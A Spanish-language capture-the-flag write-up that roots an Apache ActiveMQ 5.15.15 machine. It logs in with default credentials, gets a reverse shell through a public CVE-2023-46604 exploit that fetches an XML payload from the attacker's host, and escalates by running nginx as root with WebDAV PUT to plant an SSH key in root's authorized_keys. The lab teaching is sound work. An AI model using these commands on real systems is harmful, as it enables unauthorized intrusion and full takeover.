

## Spoiler
---

<style>
  .spoiler-toggle {
    position: absolute;
    opacity: 0;
    pointer-events: none;
  }

  .spoiler-text {
    cursor: pointer;
    filter: blur(6px);
    opacity: 0.35;
    transition: filter 0.2s ease, opacity 0.2s ease;
  }

  .spoiler-toggle:checked + .spoiler-text {
    filter: none;
    opacity: 1;
    user-select: text;
  }
</style>

Hint 1:
<input class="spoiler-toggle" type="checkbox" id="step-1">
<label class="spoiler-text" for="step-1">
  Vulnerabilidades por versión, un clásico
</label>

Hint 2:
<input class="spoiler-toggle" type="checkbox" id="step-2">
<label class="spoiler-text" for="step-2">
  Las técnicas más comunes para escalar privilegios aún sirven ah
</label>

## Writeupp
---

### Reconocimiento

Primero se realizará el escaneo de puertos y servicios de la máquina utilizando la herramienta `nmap`

```sh
sudo nmap -sS -Pn -n --min-rate 5000 10.129.230.87 -p- -sV -vvv -oN port-scan
```

```ruby
Nmap scan report for 10.129.230.87
Host is up, received user-set (0.11s latency).
Scanned at 2026-09-24 21:41:24 EDT for 52s
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http       syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
1883/tcp  open  mqtt       syn-ack ttl 63
5672/tcp  open  amqp?      syn-ack ttl 63
8161/tcp  open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
36955/tcp open  tcpwrapped syn-ack ttl 63
61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
61614/tcp open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport 5.15.15
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5672-TCP:V=7.99%I=7%D=9/24%Time=6AB5D15E%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\
SF:xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01
SF:\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20cli
SF:ent\x20using\x20unsupported\x20AMQP\x20attempted")%r(HTTPOptions,89,"AM
SF:QP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1
SF:\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x0
SF:2\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20using\x2
SF:0unsupported\x20AMQP\x20attempted")%r(RTSPRequest,89,"AMQP\x03\x01\0\0A
SF:MQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`
SF:\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:d
SF:ecode-error\xa17Connection\x20from\x20client\x20using\x20unsupported\x2
SF:0AMQP\x20attempted")%r(RPCCheck,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\
SF:0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x0
SF:2\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Co
SF:nnection\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted
SF:")%r(DNSVersionBindReqTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\
SF:x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\
SF:0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connecti
SF:on\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(D
SF:NSStatusRequestTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0
SF:\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x1
SF:8\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20f
SF:rom\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(SSLSessi
SF:onReq,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0
SF:\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S
SF:\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client
SF:\x20using\x20unsupported\x20AMQP\x20attempted")%r(TerminalServerCookie,
SF:89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x
SF:04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\x
SF:c0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20us
SF:ing\x20unsupported\x20AMQP\x20attempted");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port61613-TCP:V=7.99%I=7%D=9/24%Time=6AB5D159%P=x86_64-pc-linux-gnu%r(H
SF:ELP4STOMP,27F,"ERROR\ncontent-type:text/plain\nmessage:Unknown\x20STOMP
SF:\x20action:\x20HELP\n\norg\.apache\.activemq\.transport\.stomp\.Protoco
SF:lException:\x20Unknown\x20STOMP\x20action:\x20HELP\n\tat\x20org\.apache
SF:\.activemq\.transport\.stomp\.ProtocolConverter\.onStompCommand\(Protoc
SF:olConverter\.java:258\)\n\tat\x20org\.apache\.activemq\.transport\.stom
SF:p\.StompTransportFilter\.onCommand\(StompTransportFilter\.java:85\)\n\t
SF:at\x20org\.apache\.activemq\.transport\.TransportSupport\.doConsume\(Tr
SF:ansportSupport\.java:83\)\n\tat\x20org\.apache\.activemq\.transport\.tc
SF:p\.TcpTransport\.doRun\(TcpTransport\.java:233\)\n\tat\x20org\.apache\.
SF:activemq\.transport\.tcp\.TcpTransport\.run\(TcpTransport\.java:215\)\n
SF:\tat\x20java\.lang\.Thread\.run\(Thread\.java:750\)\n\0\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Si ven este tipo de resultados en `nmap` quiere decir que son puertos los cuales no se pudo obtener su servicio o versión de manera "normal", para estos casos `nmap` realiza un escaneo más exahustivo, digamos que le envía cosas a ver que responde. En dicho resultado vemos que pudo obtener el servicio del puerto *61613* mientras que en el *5672*, esto es debido a que según lo realizado o enviado por `nmap` no fué suficiente para obtener un servicio.

Nosotros mismos podemos verificar alguna respuesta envviando una cadena de caracteres al puerto *5672* con `telnet`

```sh
telnet 10.129.230.87 5672
```



Por lo menos nos arroja que tiene algo que ver con AMQP haciendo referencia a Apache ActiveMQ, pero vayamos a lo principal...

Se tienen 3 puertos abiertos que ofrecen el servicio de **HTTP** según el escaneo, estos son:

- 80
- 8161
- 61614

De los 3 puertos solo 1 arrroja una página web el cual es el puerto 80, qué sorpresa no ?



Bueno, este puerto nos solicita credenciales, probaremos un simple *admin:admin*



Funcionó! Vemos que este se ejecuta en *Apache ActiveMQ*  y dispone de 2 links los cuales son:

- http://10.129.230.87/demo/



- http://10.129.230.87/admin/



En la ruta */demo* podemos ver la versión el cual es 5.15.15, buscaremos un exploit referente a esta versión...

## Acceso Inicial

Buscando por google nos topamos con el CVE-2023-46604, este precisamente afecta a la versión que se está ejecutando en la máquina víctima



Su descripción es:

> [!quote]
> The Java OpenWire protocol marshaller is vulnerable to Remote Code Execution. This vulnerability may allow a remote attacker with network access to either a Java-based OpenWire broker or client to run arbitrary shell commands by manipulating serialized class types in the OpenWire protocol to cause either the client or the broker (respectively) to instantiate any class on the classpath. Users are recommended to upgrade both brokers and clients to version 5.15.16, 5.16.7, 5.17.6, or 5.18.3 which fixes this issue.

Esto implica un RCE a través de la manipulación de tipos clases serializados, este dispone de exploit público el cual uno de ellos es https://github.com/strikoder/CVE-2023-46604-ActiveMQ-RCE-Python en este repositorio se nos muestra que se usa el puerto *61616* para ejecutar el exploit, puerto que precisamente tiene abierto nuestra víctima por lo que pasaremos a explotarlo siguiendo los pasos que nos indica el propio repositorio.

```sh
# paso 1 - abrir un puerto en escucha
nc -lnvp 4444

# paso 2 - generar un archivo xml utilizando nuestra ip y el puerto que hemos abierto por parte nuestra
python3 generate_poc.py -i 10.10.15.231 -p 4444

# paso 3 - abrir un servicio http en la ruta donde se ha generado el archivo xml
python3 -m http.server 8080

# paso 4 - ejecutar el "main.py" para ejecutar el exploit
python3 main.py -i 10.129.230.87 -u http://10.10.15.231:8080/poc-linux.xml
# poc-linux.xml es el archivo que generamos en el paso 2
```







Con esto obtuvimos acceso al sistema

Un poco de contexto sobre la vulnerabilidad...

Tal como se comentó en su descripción, esta se basa en abusar una clase, esta clase se llama *ClassPathXmlApplicationContext*, esta clase sirve principalmente para configurar aplicaciones de Spring pasándole un XML como parámetro, y sí, precisamente en nuestros pasos de explotación el paso 2 implicaba una creación de un XML, este XML es el que se ejecutó para obtener la shell reversa.



Ya, pero que hay de los números esos hexadecimales que aparecieron refiriendome a cuando ejecutamos el *main.py* ? Esos números hexadecimales es el objeto serializado que se manda hacia el puerto 61616, si vemos más de cerca en el código fuente del exploit veremos que tiene la siguiente estructura



En el apartado 1 vemos que se envía en formato hexadecimal la clase vulnerable, en este caaso es *ClassPathXmlApplicationContext*
En el apartado 2 vemos que se manda una variable llamada *message*, esta variable no es nada más que la url que le pasamos como parámetro, este es precisamente la dirección web donde alojamos el xml malicioso, xml que contiene nuestra shell reversa

Con todo esto, pasemos al escalamiento de privilegios

## Escalamiento de privilegios

Verificaremos si disponemos de ejecutar comandos o herramientas con permisos elevados

```sh
sudo -l
```



Entonces disponemos de permisos elevados para ejecutar `nginx`, para abusar de este permiso crearemos un archivo de configuración de nginx que nos de permiso de listado de la raíz del sistema, este archivo tendrá el siguiente contenido:

```plaintext
user root;
http {
  server {
    listen 1337;
    root /;
    autoindex on;
    dav_methods PUT;
  }
}
events {}
```

Este archivo nos permitirá listar la raíz y que este se ejecute en el puerto 1337, intentaremos colocar nuestra llave pública en el authorized_keys del root, para eso haremos lo siguiente:

```sh
# crear nuestras lalves pública y privada
ssh-keygen -t rsa -b 4096 -f id_rsa -N ""

# copiar el contenido del id_rsa.pub a un archivo llamado authorized_keys
catnp id_rsa.pub > authorized_keys

# descargar nuestro authorized_keys a la máquina víctima
activemq@broker:/tmp$ wget 10.10.15.231:8000/authorized_keys

# cargar el authorized_keys a la carpeta .ssh del root de la víctima
activemq@broker:/tmp$ curl -X PUT 127.0.0.1:1337/root/.ssh/authorized_keys --data-binary @/tmp/authorized_keys

# verificamos que se haya subido correctamente
activemq@broker:/tmp$ curl 127.0.0.1:1337/root/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDo5bUCSCXAjns3cwaEs87oYQzc6MFU4W8euSKhvffaBQ+nA0GwmELAuNB7rOCYlyLjUYSHS7o4+2YpRJuEeDiNpZjtkjOAHtih+EyO7LusVvD5s3mRr9484Jef0B2Vt7870FAh4Vzs4pyK6xZwCW5lZjY8+glrCey9xHmOWN7aBVnh7spkdtZgGq2275xZT86pDoQ2NFHp0kscH/9A1y4PY63ZOu5Sf6exibBsg7LYLnhknCmUFXhxgyV03n9CGwOQ8G/Qq6aJhE/KAT4923Brl689DX4ra1v4emIQZ98+qE3175tbNO7KzYrNSNGHFS1Pawp+ewF47l8znTkOf1b0BIxB1EQSkn/cFHe1jhGsrxZ+S3iVDiQAsAgd02UFAugCxZSi4T/iM1svYLZy/4EKtZLm9dINmGYW4uu3mjSgjkCnutWE3LYvGf2yd/r/Pddd8lwT2tGbXtLASochhbSfkLJ+wGLw0bSc5yBfDehcsu8tUdJFuds5kjm88G8IhnPJbtR7vmxtwhYYCyC88oMtr52ug2pWioR4mEvdDRYcfbqsUn/yHYR/2pHHZ0WpYLxaxJFbxnuUYAWp1UP3Lw75C2qzpX7DdCsiLqQQEYuvDsmBFw6gsQTQYFkBKABfRiwJR5Kz/JZNZ3dycso1Wn9Frz97Nf7SrlEcacA4xFwU6Q== fluwh3n@Fluwh3nM4ch1n3

# Ahora ingresamos como root por ssh usando la llave privada creada en nuestra máquina
ssh root@10.129.230.87 -i id_rsa
```



Con esto pudimos obtener los más altos privilegios en la máquina víctima.